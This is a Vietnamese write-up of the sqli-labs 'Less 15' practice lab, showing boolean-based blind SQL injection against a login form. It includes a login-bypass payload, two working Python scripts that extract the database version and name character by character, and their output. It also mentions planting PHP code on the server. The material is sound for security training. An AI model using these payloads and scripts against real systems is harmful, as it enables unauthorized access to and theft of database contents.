




# Less 15

Ta thấy có khung đăng nhập



Thử đăng nhập sai



Sau nhiều lần thử tôi thấy ở bài này không hiển thị lỗi ra ngoài màn hình. Chỉ xác nhận là login thành công hay thất bại. Ở bài này ta không thể khai thác bằng cách cho nó hiển thị lỗi ra ngoài màn hình giống như các bài trước. Nhưng ở đây ta có thể thử để tìm kiếm dữ liệu trong DB. Sau nhiều lần thì tôi có thể login mà không cần user hay password





Ta có thể dự đoán thông tin bằng cách tương tự như sau

```
1' or substr((select @@version),1,1)='5' -- 
```

Thấy đã thực hiện login thành công


Tương tự như vậy để thuận tiên cho việc tìm kiếm thông tin trong DB tôi sử dụng đoạn script

Ví dụ show tên DB đang sử dụng

```
import requests
import string

text = "../images/flag.jpg"
query = "select @@version"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-15/"
param_1 = "1' or substr(("
param_2 = "),{},1)='{}' -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        res = requests.post(url=url_1, data=data)
        if text in res.text:
            print(i)
            break
```

Kết quả như sau

```
python Sql-boolean-post.py 
5
.
5
.
6
0
-
m
a
r
i
a
d
b
```

Show tên DB

```
import requests
import string

text = "../images/flag.jpg"
query = "select database()"
passwd = ""
url_1="http://192.168.84.233/sqli-labs/Less-15/"
param_1 = "1' or substr(("
param_2 = "),{},1)='{}' -- "
param = param_1 + query + param_2

lists=string.printable

for n in range(1,18):
    for i in lists:
        username = param.format(n,i)
        data={"uname": username, "passwd":passwd}
        res = requests.post(url=url_1, data=data)
        if text in res.text:
            print(i)
            break

```

Kết quả như sau

```
python Sql-boolean-post.py 
s
e
c
u
r
i
t
y
```

Tương tự như vậy ta có thể show các thông tin khác của DB giông như những bài trước. Hoặc ta có thể tận dụng đây để thêm vào server một đoạn code PHP như các bài trước